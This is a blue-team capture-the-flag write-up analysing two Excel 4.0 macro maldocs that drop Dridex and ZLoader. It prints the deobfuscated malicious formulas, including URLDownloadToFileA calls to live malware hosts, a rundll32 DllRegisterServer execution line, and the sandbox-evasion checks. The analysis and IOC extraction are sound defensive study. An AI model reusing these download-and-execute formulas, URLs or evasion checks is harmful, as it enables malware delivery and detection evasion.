

# XLM Macros Lab

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/xlm-macros/](https://cyberdefenders.org/blueteam-ctf-challenges/xlm-macros/)

Suggested tools: REMnux VM, `XLMDeobfuscator`, `oledump` with `PLUGIN_BIFF`, Office IDE

Tactics: Execution, Persistence, Stealth, Discovery, Command and Control, Impact

# Scenario

Recently, we have seen a resurgence of Excel-based malicious office documents. However, instead of using VBA-style macros, they are using older style Excel 4 macros. This changes our approach to analyzing these documents, requiring a slightly different set of tools. In this challenge, you, as a security blue team analyst will get hands-on with two documents that use Excel 4.0 macros to perform anti-analysis and download the next stage of the attack.

# Questions

Q1- Sample1: What is the document decryption password?

Answer: `VelvetSweatshop`

Reason: Sample1 (`sample1-fb5ed444ddc37d748639f624397cff2a.bin`) was found to be encrypted using `msoffcrypto-tool -t -v`, and a subsequent password-cracking pass with `msoffcrypto-crack.py` recovered the password `VelvetSweatshop`, the well-known Microsoft Office default encryption password that Excel silently auto-decrypts on open without any user prompt, a technique commonly abused by XLM 4.0 maldocs to defeat automated sandbox analysis that does not know to try this specific password.

```bash
$ msoffcrypto-tool -t -v sample1-fb5ed444ddc37d748639f624397cff2a.bin
Version: 6.0.0
sample1-fb5ed444ddc37d748639f624397cff2a.bin: encrypted

$ python3 msoffcrypto-crack.py sample1-fb5ed444ddc37d748639f624397cff2a.bin 
Password found: VelvetSweatshop
```

Q2- Sample1: This document contains six hidden sheets. What are their names? Provide the value of the one starting with S.

Answer: `SOCWNEScLLxkLhtJp`

Reason: The decrypted workbook (`sample1_decrypted.bin`, produced with `msoffcrypto-tool -p VelvetSweatshop`) contains six hidden Excel 4.0 macro sheets, identified by parsing the BIFF `BOUNDSHEET` records with `oledump.py -p plugin_biff --pluginoptions "-x"`: `SOCWNEScLLxkLhtJp`, `OHqYbvYcqmWjJJjsF`, `Macro2`, `Macro3`, `Macro4`, and `Macro5`, with the randomized-name sheets being consistent with the same anti-analysis intent as the `VelvetSweatshop` encryption, obscuring the macro logic from casual inspection in the Excel UI.

```bash
$ msoffcrypto-tool -p VelvetSweatshop sample1-fb5ed444ddc37d748639f624397cff2a.bin > sample1_decrypted.bin
                                                                                                                                                 
$ python3 ./oledump/oledump.py -p plugin_biff --pluginoptions "-x" sample1_decrypted.bin | grep -ia hidden     
                 0085     25 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - SOCWNEScLLxkLhtJp
                 0085     25 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - OHqYbvYcqmWjJJjsF
                 0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - Macro2
                 0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - Macro3
                 0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - Macro4
                 0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, hidden - Macro5
```

Q3- Sample1: What URL is the malware using to download the next stage? Only include the second-level and top-level domain. For example, [xyz.com](http://xyz.com/).

Answer: `hxxp://rilaer.com`

Reason: Parsing the BIFF STRING records with `oledump.py -p plugin_biff --pluginoptions "-x"` revealed formula-embedded URL strings pointing to `http://rilaer.com/IfAmGZIJjbwzvKNTxSPM/ixcxmzcvqi.exe`, indicating the XLM 4.0 macro downloads its next-stage payload from the second-level/top-level domain `hxxp://rilaer[.]com`, with the full path likely invoked via a `URLDownloadToFile`-style Excel 4.0 macro function once the macro sheet executes.

```bash
$ python3 ./oledump/oledump.py -p plugin_biff --pluginoptions "-x" sample1_decrypted.bin | grep -ia http  
                 "0207     56 STRING : String Value of a Formula - b'http://rilaer.com/IfAmGZIJjbwzvKNTxSPM/ixcxmzcvqi.exe'"
                 "0207     32 STRING : String Value of a Formula - b'http://rilaer.com/IfAmGZIJjbw'"
                 "0207     56 STRING : String Value of a Formula - b'http://rilaer.com/IfAmGZIJjbwzvKNTxSPM/ixcxmzcvqi.exe'"
```

Q4- Sample1: What malware family was this document attempting to drop?

Answer: Dridex

Reason: Cross-referencing the extracted download URL `http://rilaer.com/IfAmGZIJjbwzvKNTxSPM/ixcxmzcvqi.exe` against URLhaus ([abuse.ch](http://abuse.ch/)) shows the host `rilaer[.]com` was first seen at `2020-04-02 15:48:08 UTC` distributing a payload tagged `Dridex`, with the retrieved executable payload identified by SHA256 `90e08dcc9e5833aeb8f294e3a0d7577d5ec430129e533d74e77586ed9763f56a`, confirming the XLM 4.0 macro in this document was staged to drop the Dridex banking trojan.



Q5- Sample2: This document has a very hidden sheet. What is the name of this sheet?

Answer: `CSHykdYHvi`

Reason: Sample2 (`sample2-b5d469a07709b5ca6fee934b1e5e8e38.bin`) was found to be unencrypted via `msoffcrypto-tool -t`, and parsing its BIFF `BOUNDSHEET` records with `oledump.py -p plugin_biff --pluginoptions "-x"` revealed a single Excel 4.0 macro sheet flagged `very hidden` (a distinct visibility state from ordinary `hidden`, settable only via VBA/macro code or direct file editing, not through the Excel UI, making it invisible even via right-click "Unhide") named `CSHykdYHvi`.

```bash
$ msoffcrypto-tool -t sample2-b5d469a07709b5ca6fee934b1e5e8e38.bin                                                                     
sample2-b5d469a07709b5ca6fee934b1e5e8e38.bin: not encrypted
                                                                                                                                                 
$ python3 ./oledump/oledump.py -p plugin_biff --pluginoptions "-x" sample2-b5d469a07709b5ca6fee934b1e5e8e38.bin | grep -ia hidden      
                 0085     18 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, very hidden - CSHykdYHvi
                 "0018     29 LABEL : Cell Value, String Constant - _xlfn.CONCAT hidden len=2 ptgErr  *INCOMPLETE FORMULA PARSING* Remaining, unparsed expression: b'\\x1d'"
```

Q6- Sample2: This document uses `reg.exe`. What registry key is it checking?

Answer: `VBAWarnings`

Reason: Sample2's XLM 4.0 macro invokes `reg.exe` via a `CALL("Shell32","ShellExecuteA",...)` formula to export the registry key `HKCU\Software\Microsoft\Office\<version>\Excel\Security` to `c:\users\public\1.reg`, then reads that file back with `FOPEN`/`FREAD` to check its contents. Parsing the raw BIFF records with `oledump.py -p plugin_biff --pluginoptions "-x"` and grepping for `vba` recovers a cached formula-result `STRING` record (`0x0207`) containing the literal exported value `"VBAWarnings"=dword:00000002`, confirming the specific registry value the macro is checking is `VBAWarnings`, the Trust Center setting controlling whether Excel prompts before running macros.

```bash
$ python3 ./oledump/oledump.py -p plugin_biff --pluginoptions "-x" sample2-b5d469a07709b5ca6fee934b1e5e8e38.bin | grep -ia vba
                 '0207    131 STRING : String Value of a Formula - b\'"VBAWarnings"=dword:00000002\''
```

Q7- Sample2: From the use of `reg.exe`, what value of the assessed key indicates a sandbox environment?

Answer: `0x1`

Reason: The macro's decision logic at cell `J734` — `IF(ISNUMBER(SEARCH("0001",J731)),CLOSE(FALSE),GOTO(J1))` — searches the exported `VBAWarnings` registry value for the substring `"0001"`. A `VBAWarnings` value of `0x1` (`Enable all macros without notification`) is not the default Excel Trust Center setting and strongly indicates an automated/sandboxed analysis environment pre-configured to auto-execute macros for detonation, so when this value is detected, the macro calls `CLOSE(FALSE)` to abort execution and evade analysis; only when the value does NOT match `0x1` (e.g. the default `0x2`, requiring user confirmation, consistent with a real victim) does execution continue via `GOTO(J1)` into the payload delivery chain.

```bash
$ xlmdeobfuscator --file sample2-b5d469a07709b5ca6fee934b1e5e8e38.bin | grep -ia IF 
XLMMacroDeobfuscator: pywin32 is not installed (only is required if you want to use MS Excel)
CELL:J734      , Branching           , IF(ISNUMBER(SEARCH("0001",J731)),CLOSE(FALSE),GOTO(J1))
CELL:J1        , FullEvaluation      , FORMULA("=IF(GET.WORKSPACE(13)<770, CLOSE(FALSE),)",K2)
CELL:J2        , FullEvaluation      , FORMULA("=IF(GET.WORKSPACE(14)<381, CLOSE(FALSE),)",K4)
CELL:J4        , FullEvaluation      , FORMULA("=SHARED FMLA at rowx=0 colx=1IF(GET.WORKSPACE(19),,CLOSE(TRUE))",K5)
CELL:J5        , FullEvaluation      , FORMULA("=SHARED FMLA at rowx=0 colx=1IF(GET.WORKSPACE(42),,CLOSE(TRUE))",K6)
CELL:J6        , FullEvaluation      , FORMULA("=SHARED FMLA at rowx=0 colx=1IF(ISNUMBER(SEARCH(""Windows"",GET.WORKSPACE(1))), ,CLOSE(TRUE))",K7)
CELL:K2        , FullEvaluation      , IF(GET.WORKSPACE(13)<770,CLOSE(FALSE),)
CELL:K4        , FullEvaluation      , IF(GET.WORKSPACE(14)<381,CLOSE(FALSE),)
```

Q8- Sample2: This document performs several additional anti-analysis checks. What Excel 4 macro function does it use?

Answer: `GET.WORKSPACE`

Reason: Beyond the `reg.exe`/`VBAWarnings` sandbox check, the macro chains several additional anti-analysis checks using the Excel 4.0 macro function `GET.WORKSPACE`, which returns environment/application properties about the running Excel instance. Each check is wrapped in an IF/CLOSE branch that aborts execution if the value looks inconsistent with a genuine physical Windows victim machine rather than a sandboxed/virtualized analysis environment:

- `GET.WORKSPACE(13)` (cell `J1`) — screen resolution height, aborts via `CLOSE(FALSE)` if below `770`
- `GET.WORKSPACE(14)` (cell `J2`) — screen resolution width, aborts via `CLOSE(FALSE)` if below `381`
- `GET.WORKSPACE(19)` (cell `J4`) — whether a mouse is present, aborts via `CLOSE(TRUE)` if absent
- `GET.WORKSPACE(42)` (cell `J5`) — Mac-style `ScreenUpdating` environment flag, aborts via `CLOSE(TRUE)` if unset
- `GET.WORKSPACE(1)` (cell `J6`) — OS/application version string, searched for the substring `"Windows"`, aborts via `CLOSE(TRUE)` if not found

Q9- Sample2: This document checks for the name of the environment in which Excel is running. What value is it using to compare?

Answer: `Windows`

Reason: The final anti-analysis gate in the check chain (cell `J6`) evaluates `GET.WORKSPACE(1)`, which returns the name and version of the operating environment Excel is running under, and tests it with `ISNUMBER(SEARCH("Windows",GET.WORKSPACE(1)))`. If the substring `Windows` is not found in that returned string, the macro calls `CLOSE(TRUE)` to abort execution, meaning the malware is explicitly verifying it is running on a genuine Windows host rather than a non-Windows analysis environment (e.g. a Linux-hosted emulator/sandbox) before continuing into the payload delivery chain.

Q10- Sample2: What type of payload is downloaded?

Answer: DLL

Reason: Although the payload is downloaded to disk with a `.html` file extension (`c:\Users\Public\bmjn5ef.html`) via `URLDownloadToFileA`, cell `J9` shows it is subsequently executed with `rundll32.exe c:\Users\Public\bmjn5ef.html,DllRegisterServer`, invoking the `DllRegisterServer` export function that only exists in a DLL, confirming the actual payload type is a DLL disguised with a benign-looking extension to evade extension-based detection and analyst suspicion.

```bash
$ xlmdeobfuscator --file sample2-b5d469a07709b5ca6fee934b1e5e8e38.bin | grep -ia dll
CELL:J9        , FullEvaluation      , FORMULA("=CALL(""Shell32"",""ShellExecuteA"",""JJCCCJJ"",0,""open"",""C:\Windows\system32\rundll32.exe"",""c:\Users\Public\bmjn5ef.html,DllRegisterServer"",0,5)",K11)
```

Q11- Sample2: What URL does the malware download the payload from?

Answer: `hxxps://ethelenecrace.xyz/fbb3`

Reason: Cell `J7` shows the macro invoking `CALL("urlmon","URLDownloadToFileA",...)` to fetch its next-stage payload from `hxxps://ethelenecrace[.]xyz/fbb3`, saving it locally to `c:\Users\Public\bmjn5ef.html`, a payload later executed via `rundll32.exe` invoking the `DllRegisterServer` export to run it as a DLL despite the `.html` extension used to evade cursory inspection.

```bash
$ xlmdeobfuscator --file sample2-b5d469a07709b5ca6fee934b1e5e8e38.bin | grep -ia http
XLMMacroDeobfuscator(v0.2.7) - https://github.com/DissectMalware/XLMMacroDeobfuscator
CELL:J7        , FullEvaluation      , FORMULA("=CALL(""urlmon"",""URLDownloadToFileA"",""JJCCJJ"",0,""https://ethelenecrace.xyz/fbb3"",""c:\Users\Public\bmjn5ef.html"",0,0)",K8)
```

Q12- Sample2: What is the filename that the payload is saved as?

Answer: `bmjn5ef.html`

Reason: Per cell `J7`'s `URLDownloadToFileA` call, the downloaded payload is saved to disk as `bmjn5ef.html` in `c:\Users\Public\`, using a benign-looking `.html` extension despite being executed later via `rundll32.exe ...,DllRegisterServer` as a DLL, an extension-mismatch technique meant to reduce suspicion during casual file listing or automated file-type filtering.

Q13- Sample2: How is the payload executed? For example, `mshta.exe`

Answer: `rundll32.exe`

Reason: Cell `J9` shows the macro invoking `CALL("Shell32","ShellExecuteA",...)` to launch `C:\Windows\system32\rundll32.exe` against the dropped payload with the argument `c:\Users\Public\bmjn5ef.html,DllRegisterServer`, meaning execution is handed off via `rundll32.exe`, a native Windows LOLBIN (Living-Off-the-Land Binary) that loads a DLL directly and calls a specified exported function, here `DllRegisterServer`, without requiring the payload to have a `.dll` extension.

Q14- Sample2: What was the malware family?

Answer: ZLOADER

Reason: Submitting the payload/document hash `7d7f9477110643a6f9065cc9ed67440aa091e323ba6b981c1fb504fdd797535c` to VirusTotal returns multiple AV engine detections naming the `ZLOADER` family, including `Trellix ENS` (`Trojan.XF.ZLOADER.SMMR2`) and `TrendMicro-HouseCall` (`Trojan.XF.ZLOADER.SMMR2`), confirming Sample2's XLM 4.0 macro chain (VelvetSweatshop-adjacent anti-analysis checks, `reg.exe`/`VBAWarnings` sandbox detection, `GET.WORKSPACE` environment checks, and the `rundll32.exe ...,DllRegisterServer` execution of the downloaded `bmjn5ef.html` DLL) was staged to deliver the ZLoader banking trojan/loader.


# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Sample1 - Encryption | Password | `VelvetSweatshop` |
| Sample1 - Hidden Sheets | Sheet name | `SOCWNEScLLxkLhtJp` |
|  | Sheet name | `OHqYbvYcqmWjJJjsF` |
|  | Sheet name | `Macro2` |
|  | Sheet name | `Macro3` |
|  | Sheet name | `Macro4` |
|  | Sheet name | `Macro5` |
| Sample1 - Network | Download URL | `hxxp://rilaer[.]com/IfAmGZIJjbwzvKNTxSPM/ixcxmzcvqi.exe` |
| Sample1 - Payload | Malware family | `Dridex` |
|  | Payload SHA256 | `90e08dcc9e5833aeb8f294e3a0d7577d5ec430129e533d74e77586ed9763f56a` |
| Sample2 - Hidden Sheets | Very hidden sheet | `CSHykdYHvi` |
| Sample2 - Anti-Analysis | Registry key checked | `HKCU\Software\Microsoft\Office\<version>\Excel\Security` |
|  | Registry value checked | `VBAWarnings` |
|  | Sandbox-indicating value | `0x1` |
|  | Environment function | `GET.WORKSPACE` |
| Sample2 - Network | Download URL | `hxxps://ethelenecrace[.]xyz/fbb3` |
| Sample2 - Dropped File | Path | `c:\Users\Public\bmjn5ef.html` |
|  | True file type | DLL (disguised with `.html` extension) |
| Sample2 - Execution | Method | `rundll32.exe c:\Users\Public\bmjn5ef.html,DllRegisterServer` |
| Sample2 - Payload | Malware family | `ZLoader` |
|  | Sample hash | `7d7f9477110643a6f9065cc9ed67440aa091e323ba6b981c1fb504fdd797535c` |

# Lab Insights

- **Static parsers show you the code, not the runtime truth.** Across this lab, `xlmdeobfuscator`'s formula-emulation trace and `olevba`'s cell reconstruction both left gaps — an unresolved `FREAD(255)` placeholder, a blank cached-value column — that only `oledump`'s raw BIFF record dump could fill, because Excel had cached the actual runtime result of a formula directly into the saved file. No single tool's abstraction is authoritative; when one tool's output looks incomplete, dropping down a layer to the raw record format is often what surfaces ground truth.
- **Environment fingerprinting is cheap, layered, and rarely relies on one signal.** Sample2 didn't gate execution on a single sandbox check — it stacked a registry-based macro-security check (`VBAWarnings`) with five separate `GET.WORKSPACE` environment queries (resolution, mouse presence, a Mac-specific flag, and an OS-string search) before ever reaching the download stage. This layered-gate pattern means a sandbox has to pass every check simultaneously to observe real behavior, which is exactly why detonation-based analysis so often needs a carefully tuned VM to get past the initial gate.
- **File extension is a trust signal attackers exploit for free.** Both samples leaned on mismatches between apparent and actual file type — Sample2's payload was saved as `.html` but executed as a DLL via `rundll32.exe ...,DllRegisterServer`, letting it slip past casual triage or extension-based filtering that a `.dll`/`.exe` would trigger immediately. This is a recurring, low-cost evasion technique worth checking for whenever a dropped file's extension and its execution command don't obviously match.
- **Default-password encryption is a detection gate, not real security.** Sample1's use of the well-known `VelvetSweatshop` default password wasn't meant to protect the document from anyone — it exists purely so Excel auto-decrypts silently while automated scanners that don't try that specific password treat the file as opaque/encrypted and skip deeper inspection.
- **"Very hidden" sheets are a UI-trust gap, not a technical barrier.** Sample2's payload logic lived on a sheet flagged `very hidden`, a state unreachable through Excel's own right-click "Unhide" menu but trivially visible to any tool reading BIFF `BOUNDSHEET` records directly. The entire premise of this evasion depends on the analyst relying on Excel's own UI rather than parsing the underlying file format.